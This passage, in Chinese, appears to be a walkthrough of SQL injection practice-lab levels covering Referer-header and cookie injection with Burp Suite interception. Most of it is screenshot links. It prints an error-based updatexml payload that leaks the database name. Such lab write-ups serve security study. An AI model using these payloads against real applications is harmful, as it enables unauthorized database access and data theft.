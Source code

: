 开始头部注入

![image-20220921224538978](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921224538978.png)

![image-20220921224554858](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921224554858.png)

l两边加上`'`再试，成功

![image-20220921224646805](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921224646805.png)

第十九关

![image-20220921224753049](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921224753049.png)

这里提示referer field，所以输入账号和密码，任何尝试注入

```
'or updatexml(1,concat(0x7e,database(),0x7e),1) or'
```

![image-20220921225048623](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921225048623.png)

直接成功

## 第二十关

考验的是cookie注入，可以看到字段为uagent field

![image-20220921225207459](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921225207459.png)

登录后

![image-20220921225330857](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921225330857.png)

登录时使用Burp Suite对请求进行拦截

第一次只有账号和密码，放过去

![image-20220921230442464](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921230442464.png)

第二次，传输了一个cookie

![image-20220921230634774](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921230634774.png)

对uname=admin进行注入

```
'or updatexml(1,concat(0x7e,database(),0x7e),1) or'
```

注入成功

![image-20220921230308382](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921230308382.png)

## 第二十一关
